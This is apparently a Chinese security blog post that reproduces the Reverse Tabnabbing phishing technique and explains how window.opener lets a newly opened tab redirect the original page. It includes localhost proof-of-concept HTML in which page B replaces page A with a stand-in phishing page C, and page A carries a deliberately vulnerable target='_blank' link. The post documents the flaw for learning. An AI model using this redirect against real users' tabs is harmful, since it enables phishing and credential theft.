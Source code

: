 ```yaml
---
title: Reverse_Tabnabbing 复现
published: 2025-03-09 16:43:11
tags: [WEB安全,漏洞复现]
category: 安全
draft: false
---
```


# Reverse_Tabnabbing 复现

### 利用Reverse_Tabnabbing进行钓鱼攻击

> 什么是`Reverse_Tabnabbing` ：https://owasp.org/www-community/attacks/Reverse_Tabnabbing
> 

> 便于理解：https://xz.aliyun.com/t/7080?time__1311=n4%2BxnD0Dy7itGQei%3DDkDlhjeP7KRM2Y%2BDxD54%3Dx
> 
1. 原理
    
    该攻击意为在A页面中打开一个新的页面B而不是替换原始页面，此时B页面可以对A页面进行某些操作，本漏洞利用的操作为将A页面修改为其他的页面，由于用户对页面A是信任的，因此此漏洞的主要利用点是将A页面改为钓鱼页面C
    
    如果在页面中使用标签，具有target属性，其值为`_blank`,同时没有使用`rel="noopener"`属性，那将会产生该漏洞
    
    当B页面被打开的时候，会有一个`web API`接口为`window.opener`,该接口 返回打开当前窗口的那个窗口的引用，例如：在window A中打开了window B，B.opener 返回 A，而该接口具有如下操作
    
    ```python
    opener.closed: Returns a boolean value indicating whether a window has been closed or not.
    opener.frames: Returns all iframe elements in the current window.
    opener.length: Returns the number of iframe elements in the current window.
    opener.opener: Returns a reference to the window that created the window.
    opener.parent: Returns the parent window of the current window.
    opener.self: Returns the current window.
    opener.top: Returns the topmost browser window.
    ```
    
    [**Napping: 1.0.1**](https://www.notion.so/Napping-1-0-1-13ab61af428980c38812f222dc72a30f?pvs=21)
    
    也是使用了`Reverse_Tabnabbing`
    
2. 测试漏洞的时候在`Google`可以测试，`firefox`不行，不知道为什么
    
    测试代码如下
    
    ```python
    # A页面
    <html>
    <title>A</title>
     <body>
      <li><a href="http://localhost/b.html" rel="opener" target="_blank" >B</a></li>
      <button onclick="window.open('http://localhost/b.html')">B</button>
     </body>
    </html>
    # B页面
    <html>
    <title>B</title>
     <body>
      <script>
       if (window.opener) {
          window.opener.location = "http://localhost/c.html";
       }else{alert("error");}
      </script>
     </body>
    </html>
    # C页面
    <!DOCTYPE html>
    <html>
    <head>
        <title>C</title>
    </head>
    <body>
    <li><a href="http://localhost/b.html" rel="opener" target="_blank">B</a></li>
      <button onclick="window.open('http://localhost/b.html')">B</button>
    </body>
    </html>
    ```